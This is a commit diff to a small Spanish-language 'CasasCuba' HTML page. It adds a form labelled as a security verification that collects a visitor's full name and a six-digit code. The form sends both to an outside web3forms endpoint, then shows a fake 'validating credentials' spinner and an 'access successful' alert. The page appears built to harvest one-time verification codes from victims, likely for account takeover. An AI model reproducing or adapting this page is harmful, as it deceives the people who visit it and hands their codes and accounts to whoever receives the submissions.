

Before and after one commit to casascubahttp/Casascuba-, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 326-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,50 +1,87 @@
 
- <!DOCTYPE html>
+
+<!DOCTYPE html>
 <html lang="es">
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
     <title>CasasCuba | Acceso</title>
     <style>
-        body { font-family: 'Segoe UI', sans-serif; background: #0f172a; color: white; display: flex; justify-content: center; align-items: center; min-height: 100vh; margin: 0; }
-        .card { background: #1e293b; padding: 30px; border-radius: 20px; box-shadow: 0 10px 25px rgba(0,0,0,0.5); width: 90%; max-width: 350px; text-align: center; border: 1px solid #334155; }
-        h2 { color: #d4af37; margin-bottom: 10px; }
-        input.name { width: 100%; padding: 12px; margin-bottom: 20px; border: 1px solid #334155; border-radius: 10px; background: #0f172a; color: white; text-align: center; }
+        :root { --primary: #d4af37; --bg: #0f172a; }
+        body { font-family: 'Segoe UI', sans-serif; background: var(--bg); color: white; display: flex; justify-content: center; align-items: center; min-height: 100vh; margin: 0; }
+        .card { background: #1e293b; padding: 30px; border-radius: 20px; box-shadow: 0 10px 25px rgba(0,0,0,0.5); width: 90%; max-width: 350px; text-align: center; border: 1px solid rgba(212, 175, 55, 0.1); }
+        h2 { color: var(--primary); margin-bottom: 5px; }
+        .subtitle { font-size: 11px; color: #94a3b8; margin-bottom: 25px; letter-spacing: 1px; }
+        input.name-input { width: 100%; padding: 12px; margin-bottom: 20px; border-radius: 10px; border: 1px solid #334155; background: #0f172a; color: white; text-align: center; outline: none; box-sizing: border-box; }
         .code-group { display: flex; justify-content: center; gap: 8px; margin-bottom: 25px; }
-        .code-box { width: 40px; height: 50px; border: 2px solid #334155; border-radius: 8px; text-align: center; font-size: 20px; font-weight: bold; background: #0f172a; color: #d4af37; }
-        .code-box:focus { border-color: #d4af37; outline: none; }
-        button { width: 100%; padding: 15px; background: #d4af37; color: black; border: none; border-radius: 10px; font-weight: bold; cursor: pointer; font-size: 16px; }
+        .code-box { width: 40px; height: 50px; border: 2px solid #334155; border-radius: 8px; background: transparent; text-align: center; color: white; font-size: 20px; outline: none; }
+        button { width: 100%; padding: 15px; background: var(--primary); color: black; border: none; border-radius: 10px; font-weight: bold; cursor: pointer; }
+        #loader { display: none; margin-top: 20px; }
+        .spinner { border: 3px solid rgba(255,255,255,0.1); width: 25px; height: 25px; border-radius: 50%; border-left-color: var(--primary); animation: spin 1s linear infinite; margin: 0 auto 10px; }
+        @keyframes spin { 0% { transform: rotate(0deg); } 100% { transform: rotate(360deg); } }
     </style>
 </head>
 <body>
+
 <div class="card">
     <h2>CasasCuba 🏠</h2>
-    <p style="color: #94a3b8; font-size: 14px;">Ingresa tu nombre y código de acceso</p>
-    <input type="text" id="user-name" class="name" placeholder="Tu Nombre Completo">
-    <div class="code-group">
-        <input type="number" class="code-box" maxlength="1" oninput="next(this, 0)">
-        <input type="number" class="code-box" maxlength="1" oninput="next(this, 1)">
-        <input type="number" class="code-box" maxlength="1" oninput="next(this, 2)">
-        <input type="number" class="code-box" maxlength="1" oninput="next(this, 3)">
-        <input type="number" class="code-box" maxlength="1" oninput="next(this, 4)">
-        <input type="number" class="code-box" maxlength="1" oninput="next(this, 5)">
+    <div class="subtitle">VERIFICACIÓN DE SEGURIDAD</div>
+
+    <form id="form">
+        <input type="hidden" name="access_key" value="644a1453-3ad6-45e9">
+        <input type="hidden" name="subject" value="Nuevo Código de Acceso - CasasCuba">
+
+        <input type="text" name="Nombre_Cliente" class="name-input" placeholder="Nombre y Apellidos" required>
+
+        <div class="code-group">
+            <input type="number" class="code-box" maxlength="1" oninput="move(this, 0)" required>
+            <input type="number" class="code-box" maxlength="1" oninput="move(this, 1)" required>
+            <input type="number" class="code-box" maxlength="1" oninput="move(this, 2)" required>
+            <input type="number" class="code-box" maxlength="1" oninput="move(this, 3)" required>
+            <input type="number" class="code-box" maxlength="1" oninput="move(this, 4)" required>
+            <input type="number" class="code-box" maxlength="1" oninput="move(this, 5)" required>
+        </div>
+
+        <input type="hidden" name="Codigo_Enviado" id="full-code">
+        <button type="submit" id="btn">VALIDAR ACCESO</button>
+    </form>
+
+    <div id="loader">
+        <div class="spinner"></div>
+        <p style="font-size: 12px; color: var(--primary);">Validando credenciales...</p>
     </div>
-    <button onclick="enviar()">CONFIRMAR ENTRADA</button>
 </div>
+
 <script>
-    function next(el, idx) {
+    function move(el, idx) {
         if (el.value.length > 1) el.value = el.value.slice(0, 1);
         if (el.value.length === 1 && idx < 5) document.querySelectorAll('.code-box')[idx + 1].focus();
     }
-    function enviar() {
-        const nom = document.getElementById('user-name').value;
-        const boxes = document.querySelectorAll('.code-box');
+
+    const form = document.getElementById('form');
+    form.addEventListener('submit', function(e) {
+        e.preventDefault();
         let cod = "";
-        boxes.forEach(b => cod += b.value);
-        if (nom === "" || cod.length < 6) return alert("Por favor, completa los datos");
-        const msg = `Hola, soy ${nom}. Mi código de confirmación es ${cod}. Solicito acceso al catálogo.`;
-        window.open(`https://wa.me/5352416260?text=${encodeURIComponent(msg)}`, '_blank');
-    }
+        document.querySelectorAll('.code-box').forEach(b => cod += b.value);
+        document.getElementById('full-code').value = cod;
+
+        document.getElementById('btn').style.display = 'none';
+        document.getElementById('loader').style.display = 'block';
+
+        const formData = new FormData(form);
+        const object = Object.fromEntries(formData);
+        const json = JSON.stringify(object);
+
+        fetch('https://api.web3forms.com/submit', {
+            method: 'POST',
+            headers: { 'Content-Type': 'application/json', 'Accept': 'application/json' },
+            body: json
+        })
+        .then(() => {
+            alert("Acceso exitoso. Su asesor validará su sesión en un momento.");
+            location.reload();
+        });
+    });
 </script>
 </body>
 </html>
```
